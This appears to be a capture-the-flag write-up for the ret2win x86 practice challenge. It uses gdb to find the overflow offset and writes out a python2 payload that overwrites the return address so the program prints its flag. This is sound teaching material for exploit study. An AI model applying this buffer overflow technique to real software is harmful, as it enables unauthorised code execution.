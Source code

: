 ### ret2win x86
Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win32
```
Check the security of ret2win32.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
...
```
There is indeed a function called ret2win.

Disassembly ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x08048645 <+25>:    push   0x8048813
0x0804864a <+30>:    call   0x80483e0 <system@plt>
...
```
The address of the syscall is 0x08048645.

Overflow length will be 32 bytes(buffer) + 4 bytes (RBP) = 36 bytes.

Therefore, the overflow strings will be:
```
A'*36+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*36+'\x45\x86\x04\x08'" | ./ret2win32
```
It will get wrong answer, so we need to find correct overflow length.

Disassambly pwnme function.
```
gdb$ pwnme
```
```
...
0x08048611 <+100>:   call   0x80483b0 <read@plt>
0x08048616 <+105>:   add    esp,0x10
0x08048619 <+108>:   sub    esp,0xc
0x0804861c <+111>:   push   0x80487eb
0x08048621 <+116>:   call   0x80483d0 <puts@plt>
0x08048626 <+121>:   add    esp,0x10
0x08048629 <+124>:   nop
0x0804862a <+125>:   leave
0x0804862b <+126>:   ret

```
Set the breakpoints right after read call and return.
```
gdb$ b * 0x08048616
gdb$ b * 0x0804862b
```
Run the program.
```
gdb$ r
```
Input some characters, such as aaaaaaaaa.
```
>aaaaaaaaaa
```
Process will pause at breakpoint 1, and we can see the buffer's starting address in stack.
```
...
0008| 0xffffd4d8 --> 0x38 ('8')
0012| 0xffffd4dc --> 0x4
0016| 0xffffd4e0 ('a' <repeats 17 times>, "\n")
...
```
We run the process continuely, and we will see the return address in stack.
```
gdb$ c
```
```
0000| 0xffffd50c --> 0x8048590 (<main+74>:      sub    esp,0xc)
...
```
Now, we know the overflow length is0xffffd50c - 0xffffd4e0 = 0x2c = 44.

Therefore, the overflow strings will be:
```
A'*44+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*44+'\x45\x86\x04\x08'" | ./ret2win32
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
